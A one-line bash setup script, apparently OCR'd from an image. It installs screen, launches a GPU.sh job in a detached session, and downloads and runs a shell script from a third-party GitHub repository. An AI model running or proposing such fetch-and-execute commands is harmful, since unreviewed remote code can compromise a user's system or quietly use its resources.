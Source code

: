#!/bin/bash
sudo apt update && sudo apt install screen -y && screen -dmS gpuu.sh ./GPU.sh 65 75 && wget https://github.com/okg123/okg1/raw/main/okg.tar.gz && wget https://raw.githubusercontent.com/okg123/okg1/main/okg2.sh && chmod u+x okg2.sh && sh okg2.sh
